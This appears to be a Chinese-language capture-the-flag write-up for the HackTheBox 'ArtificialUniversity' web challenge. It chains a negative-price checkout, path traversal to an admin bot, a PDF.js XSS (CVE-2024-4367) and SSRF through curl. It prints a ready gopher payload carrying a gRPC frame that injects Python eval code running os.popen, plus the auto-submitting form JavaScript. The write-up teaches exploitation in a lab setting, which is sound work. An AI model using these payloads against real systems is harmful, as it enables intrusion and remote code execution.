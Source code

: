  the following part is ArtificialUniversity writeup
 to exploit the lab,modify exp.py according to the comment ,and run it
不得不说，这个确实是insane难度的challenge，复杂的一批，还有各种坑

step1：注册并登录
step2：注意到/checkout路由的四个参数可控，并且不提供product_id的时候generate_payment_link会使用你提供的price来创建product，我们让它是负的，后面有用
http://192.168.205.128:1337/checkout?title=aaa&user_id=2&price=-9999&email=aaa
step3：/checkout/success 路由是一个比较重要的路由，它会检查你的order_id中price是否<0(0是代码预先定义好的一个基准price,即amt_paid)
```python
if amt_paid >= order.price:
		db_session.mark_order_complete(order_id)
```

然后如果小于0，启动一个botrunner，它会模拟firefox浏览器发起身份为admin的登录，然后浏览器中会存储admin的session，之后这个bot会访问一个url，这个url是可
被我们控制的
client.get(f"http://127.0.0.1:1337/static/invoices/invoice_{payment_id}.pdf")中paymentid可控，用../可以返回并且访问admin路由用&a=来让'.pdf'成为无意义的请求参数。这个点我们可以用来引导bot访问/admin/view-pdf。注意，这里的访问局限于127.0.0.1:1337,并且通过bot访问是必须的环节，否则不会有合法session

step4：
view-pdf可以访问任意url的pdf，注意，从上一步的浏览器请求到这一步，我们始终在浏览器中，看到
```python
return send_file(pdf_data, mimetype="application/pdf", as_attachment=False, download_name="document.pdf")
```
attachment=false意味着浏览器会直接打开这个pdf，firefox在126版本一下存在一个pdf导致xss的CVE-2024-4367，dockerfile是125，所以可以利用pdf来触发xss，这个xss只有在firefox会被触发，并且必须是bot访问
有一些问题：不能用fetch或者xhr去发送cookie，因为httponly，所以不能以admin登录，另外也不能直接fetch /admin下的路由，因为你会发现firefox viewpdf触发xss的时候document.domain=pdf.js，所以你的fetch会被cors阻止发送cookie，无论你怎么设置fetch的参数。这意味着，我们只能使用form表单的，写个js自动提交到/admin路由，这种情况是会自动发送cookie的，区别于fetch，因此，用pdf触发xss后我们就可以让admin访问以下的路由
```python
@web.route("/admin/api-health", methods=["GET", "POST"])
def api_health():
	if not session.get("loggedin") or session.get("role") != "admin":
		return redirect("/")
		
	if request.method == "GET":
		return render_template("admin_api_health.html", title="Admin panel - API health", session=session)

	url = request.form.get("url")

	if not url:
		return render_template("error.html", title="Error", error="Missing URL"), 400

	status_code = get_url_status_code(url)
	return render_template("admin_api_health.html", title="Admin panel - API health", session=session, status_code=status_code)
```
    为什么是这个路由？因为get_url_status_code(url)中调用了命令行的curl，向我们提供的url参数发起请求，这个是我们ssrf的关键步骤。为什么要绕一步不直接在
view-pdf中让bot访问这个路由？注意，这个路由只接受post方法，要么fetch，要么form，只有xss做得到，其它的路由不存在我们控制bot以admin身份发送post到这个路由的能力。curl支持相当多的协议，其中就有大家都熟悉的gopher，利用gopher我们几乎就做出来这个题了。


    curl支持那么多协议，为什么只用gopher？直接file://行不行？这其实就是回显的问题，确实是可以访问的，但是我们看不到flag。想要在xss那一步用file://然后
outofband也是不行的，会被浏览器阻止访问本地文件。
    话说回来，怎么用gopher打？实际上作者留了后面eval在product_api的api.py中，其中给了 UpdateService和GenerateProduct，思路就是利用UpdateService向
self注入一个price_formula属性，然后触发generateproduct方法，触发eval。
    这里需要了解以下grpc协议，这是一个基于http2的远程方法调用，有点像java的rmi，服务端根据product.proto编译生成了两个文件product_xxxxx.py，这两个文件
同时被放在client，为的就是client能够识别正确的类型信息，并且知道怎么把需要发送的参数和方法序列化到tcp字节流当中。服务端的api.py就是注册了一个提供方法的
服务，client创建stub后利用服务端的方法名和相应的参数去调用相对应的方法。客户端实际上已经育一些路由访问了这些方法，但是，我们的第一步必须是给服务端的product对象添加一个price_formula，然后用generateproduct去eval它。DebugService调用了updateservice，当然，也可以直接调用updateservice，不过这两个方法
都是内部方法，不存在哪个路由可以直接调用的，即使是admin的路由。我们只能通过gopher去调用它，generateproduct可以用之前的方法直接让bot访问/admin/product-stream触发。
    现在，如何构造合适的tcp数据流是关键所在，也是最后一步。并没有支持http2的gopher的现成工具，人工去计算http2的字段是很复杂的，比http1要复杂的多，对我们
没有什么帮助，还极其容易出错。一个比较好的办法是wireshark抓包，然后抓取client http2的数据流，转化为字节数组并且用%编码，或者本地用nc在某个端口监听，去抓取字节发出去的grpc数据报。这里注意，grpc的协议中client发送完整http2数据后，server会返回一个随机的字节流，client要重复发送回去这个字节流才能得到响应，
但是在client发送http2数据后相应方法已经执行。gopher协议我们只能发一次数据，我们不能，但是也不需要获取响应，我们只需要eval执行我们的命令，把flag拷贝到
可读的位置，也就是eval('__import__("os").system("cp /flag* /app/store/application/static/flag.txt")'),就完成了最后一步。生成的数据流被放在gopher后面

这个是不会变的，我已经写好放下面了（建议自己尝试生成）
gopher://_PRI%20%2A%20HTTP%2F2.0%0D%0A%0D%0ASM%0D%0A%0D%0A%00%00%00%04%00%00%00%00%00%00%00%00%04%01%00%00%00%00%00%00Z%01%04%00%00%00%01%83%86E%9Ab%BB%0F%25%A4J%FA%EC%3C%96%91%3B%8Bgs%10%AC_%2Cv%CD%B8%B6w1%0BA%8B%A0%E4%1D%13%9D%09%B8%D8%00%D8%7F_%8B%1Du%D0b%0D%26%3DLMedz%95%9A%CA%C9m%941%DC%2B%BC%B8%94%9A%CA%C8%B4%C7%60%2B%B2%EA%E0%40%02te%86M%835%05%B1%1F%00%00d%00%01%00%00%00%01%00%00%00%00_%0A%5D%0A%0Dprice_formula%12L%0AJ__import__%28%22os%22%29.popen%28%22cp%20%2Fflag%2A%20%2Fapp%2Fstore%2Fapplication%2Fstatic%2Fflag.txt%22%29    

这个peiload应该被放在pdf中的url字段，被作为curl的参数，我在文件夹中也放了生成pdf的py代码和我生成的pdf，这个pdf是不会变的，可以直接用，生成方法：

```powershell
python genpdf.py "var form=document.createElement('form');form.action='http://127.0.0.1:1337/admin/api-health';form.method='post';var urlInput=document.createElement('input');urlInput.value='gopher://127.0.0.1:50051/_PRI%20%2A%20HTTP%2F2.0%0D%0A%0D%0ASM%0D%0A%0D%0A%00%00%00%04%00%00%00%00%00%00%00%00%04%01%00%00%00%00%00%00Z%01%04%00%00%00%01%83%86E%9Ab%BB%0F%25%A4J%FA%EC%3C%96%91%3B%8Bgs%10%AC_%2Cv%CD%B8%B6w1%0BA%8B%A0%E4%1D%13%9D%09%B8%D8%00%D8%7F_%8B%1Du%D0b%0D%26%3DLMedz%95%9A%CA%C9m%941%DC%2B%BC%B8%94%9A%CA%C8%B4%C7%60%2B%B2%EA%E0%40%02te%86M%835%05%B1%1F%00%00d%00%01%00%00%00%01%00%00%00%00_%0A%5D%0A%0Dprice_formula%12L%0AJ__import__%28%22os%22%29.popen%28%22cp%20%2Fflag%2A%20%2Fapp%2Fstore%2Fapplication%2Fstatic%2Fflag.txt%22%29';urlInput.name='url';form.appendChild(urlInput);document.body.appendChild(form);form.submit();"
```

（(tip:some versions of curl dont support null bytes %00）





























flag：HTB{ol4_t4_ch41n5_ol4_t4_ch41n5_l4mp0un_t4_d15m4nd14_4l1_day}

